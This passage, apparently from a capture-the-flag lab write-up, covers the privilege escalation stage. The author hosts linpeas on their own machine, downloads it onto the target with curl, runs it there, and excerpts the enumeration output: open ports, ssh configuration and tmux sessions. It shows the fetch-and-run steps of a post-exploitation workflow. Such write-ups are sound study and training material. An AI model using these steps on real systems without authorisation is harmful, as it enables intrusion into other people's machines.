 # PrivEsc

That immediatly gets me the user flag, so now we need privesc

So lets get linpeas:
On my machine
```
cd /tmp
cp ../../Users/noneya/Useful/Tools/linpeas/linpeas.sh .
python3 -m http.server 8001
```

Then on the server:
```
cd /tmp
curl http://10.10.14.69:8001/linpeas.sh > /tmp/linpeas.sh
bash linpeas.sh > /home/dev/results.txt
```

linpeas output thats interesting...
```
╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:5000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   

╔══════════╣ Can I sniff with tcpdump?
No

══╣ Some home ssh config file was found
/usr/share/openssh/sshd_config
Include /etc/ssh/sshd_config.d/*.conf
KbdInteractiveAuthentication no
UsePAM yes
X11Forwarding yes
PrintMotd no
AcceptEnv LANG LC_*
Subsystem	sftp	/usr/lib/openssh/sftp-server

══╣ /etc/hosts.allow file found, trying to read the rules:
/etc/hosts.allow

Searching inside /etc/ssh/ssh_config for interesting info
Include /etc/ssh/ssh_config.d/*.conf
Host *
    SendEnv LANG LC_*
    HashKnownHosts yes
    GSSAPIAuthentication yes

╔══════════╣ Searching tmux sessions
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-shell-sessions
tmux 3.2a


/tmp/tmux-1001
╔══════════╣ Analyzing Keyring Files (limit 70)
drwxr-xr-x 2 root root 4096 Apr  8  2022 /etc/apt/keyrings
```